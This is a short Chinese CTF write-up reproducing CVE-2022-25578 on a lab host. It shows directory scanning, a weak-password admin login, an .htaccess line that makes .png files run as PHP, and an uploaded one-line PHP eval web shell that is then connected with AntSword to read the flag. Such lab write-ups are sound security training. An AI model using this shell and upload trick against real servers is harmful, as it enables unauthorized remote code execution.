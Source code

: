 ```yaml
---
title: CVE-2022-25578
subtitle:
date: 2025-03-14T12:16:19+08:00
slug: 0780980
draft: false
author:
  name: T1ng
  link:
  email:
  avatar: /images/avater.jpg
description:
keywords:
license:
comment: false
weight: 0
tags:
  - CVE
categories:
  - 复现
hiddenFromHomePage: false
hiddenFromSearch: false
hiddenFromRelated: false
hiddenFromFeed: false
summary:
resources:
  - name: featured-image
    src: featured-image.jpg
  - name: featured-image-preview
    src: featured-image-preview.jpg
toc: true
math: false
lightgallery: false
password:
message:
repost:
  enable: true
  url:

# See details front matter: https://fixit.lruihao.cn/documentation/content-management/introduction/#front-matter
---
```


<!--more-->

<!-- Place resource files in the current article directory and reference them using relative paths, like this: `![alt](images/screenshot.jpg)`. -->

![](images/57334f4d94c8334a885d95809716428d.png)
访问但是没有文件上传点
![](images/b8e41c4da3306e1ee4cc461c4318c605.png)
扫描目录查看是否有上传处

``` Shell
dirsearch -u "http://eci-2ze15m1vb2h75tqfcloq.cloudeci1.ichunqiu.com/"
```

![](images/c44cc10356471db99223363d3d7e50b0.png)
访问/admin，看到网页
![](images/2c01c959e0a1a35350a02e607aac0c37.png)
弱口令爆破 admin/tao，登陆成功，根据题目提示找到.htaccess文件，进行修改，添加代码使其能够对.png文件用php进行解析

```
AddType application/x-httpd-php .png
```

![](images/d67e01147922d013307c74eda6e5c973.png)
在文章上传找到文件上传处

```
<?php @eval($_POST['t1ng']);?>
```

![](images/dbf28764040eeb350e7e379efe51c71a.png)
找到图片路径，蚁剑连接
![](images/670928c8efc9ad2752807bc18b5370ad.png)
找到flag
![](images/b8e45219a5712ed5f243b4170ae1bd30.png)
